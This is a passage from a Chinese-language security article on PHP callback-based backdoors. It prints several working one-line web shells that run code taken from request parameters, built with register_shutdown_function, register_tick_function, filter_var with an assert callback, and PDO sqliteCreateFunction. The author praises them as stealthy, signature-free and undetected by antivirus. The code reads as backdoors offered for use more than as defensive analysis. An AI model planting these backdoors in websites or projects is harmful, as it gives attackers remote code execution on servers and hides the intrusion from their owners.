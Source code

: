 但如果执行一个url请求，用神器cloudeye还是能够观测到结果的：

![enter image description here](http://drops.javaweb.org/uploads/images/166b849a0af458e1ecaa3b44aadb3a581f78af96.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/f75763add4d8f7ff2b3485e0f6b6da24e0cfe5a7.jpg)

即使没输出，实际代码是执行了的。也算作回调后门的一种。

0x06 单参数后门终极奥义
=====

preg_replace、三参数后门虽然好用，但/e模式php5.5以后就废弃了，不知道哪天就会给删了。所以我觉得还是单参数后门，在各个版本都比较好驾驭。 这里给出几个好用不杀的回调后门

```
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);

```

这个是php全版本支持的，且不报不杀稳定执行：

![enter image description here](http://drops.javaweb.org/uploads/images/01b7889a0911ae477d6ef4194704ec9bbd596b64.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/fd14108286273257e265de4d26785c49d1e67446.jpg)

再来一个：

```
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function ($e, $_REQUEST['pass']);

```

再来两个：

```
filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));

```

这两个是filter_var的利用，php里用这个函数来过滤数组，只要指定过滤方法为回调（FILTER_CALLBACK），且option为assert即可。

这几个单参数回调后门非常隐蔽，基本没特征，用起来很6.

0x07 数据库操作与第三方库中的回调后门
=====

回到最早微博上发出来的那个sqlite回调后门，其实sqlite可以构造的回调后门不止上述一个。

我们可以注册一个sqlite函数，使之与assert功能相同。当执行这个sql语句的时候，就等于执行了assert。所以这个后门我这样构造：

```
$e = $_REQUEST['e'];
$db = new PDO('sqlite:sqlite.db3');
$db->sqliteCreateFunction('myfunc', $e, 1);
$sth = $db->prepare("SELECT myfunc(:exec)");
$sth->execute(array(':exec' => $_REQUEST['pass']));

```
